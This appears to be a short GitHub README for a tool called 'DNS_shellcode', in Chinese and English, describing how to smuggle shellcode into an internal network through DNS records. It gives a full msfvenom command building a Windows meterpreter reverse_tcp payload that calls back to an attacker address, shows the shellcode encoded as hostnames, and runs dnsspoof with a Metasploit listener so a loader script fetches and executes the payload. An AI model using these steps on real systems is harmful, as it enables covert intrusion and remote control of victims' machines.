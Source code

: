 # DNS_shellcode
DNS内网分离传输脚本
## step.1
- msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.32.133 lport=5555 -f c > /root/safe/payload.txt

## step.2
将shellcode制作成  IP+地址 的格式
Ipaddress "{payload}.domain.com"
- 1.1.1.0 "0xfc0x480x830xe40xf00xe8.1.com"
- 1.1.1.1 "0xbc0xc80x130xff0x100x08.1.com"

python格式化脚本可参见项目script_format.py

## step.3
#### DNS_Server
- dnsspoof -i eth0 -f dns.txt
listening msf

## setp.4
Execute this python_scripts and input Your Bad_DNS_Server_IP
